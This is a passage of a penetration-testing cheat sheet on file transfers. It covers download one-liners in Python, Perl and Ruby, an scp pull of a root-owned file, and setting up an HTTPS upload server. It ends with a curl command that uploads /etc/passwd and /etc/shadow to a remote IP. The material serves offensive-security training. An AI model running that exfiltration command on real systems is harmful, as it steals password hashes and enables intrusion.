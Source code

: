 **Using SSH Key Authentication:**
```bash
scp -i ~/.ssh/id_rsa user@192.168.49.128:/root/file.txt .
```

### Alternative Download Methods

#### Python Downloads
```bash
# Python 3
python3 -c "import urllib.request; urllib.request.urlretrieve('http://example.com/file.txt', 'file.txt')"

# Python 2
python2 -c "import urllib; urllib.urlretrieve('http://example.com/file.txt', 'file.txt')"
```

#### Perl Downloads
```bash
perl -e 'use LWP::Simple; getstore("http://example.com/file.txt", "file.txt");'
```

#### Ruby Downloads
```bash
ruby -e 'require "net/http"; File.write("file.txt", Net::HTTP.get(URI("http://example.com/file.txt")))'
```

## Upload Operations

### Web Upload

We can use `uploadserver`, an extended module of the Python HTTP.Server module, which includes a file upload page. Let's configure the uploadserver module to use HTTPS for secure communication.

**Install uploadserver:**
```bash
sudo python3 -m pip install --user uploadserver
```

**Create a Self-Signed Certificate:**
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Start Web Server:**
```bash
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Upload Multiple Files:**
```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
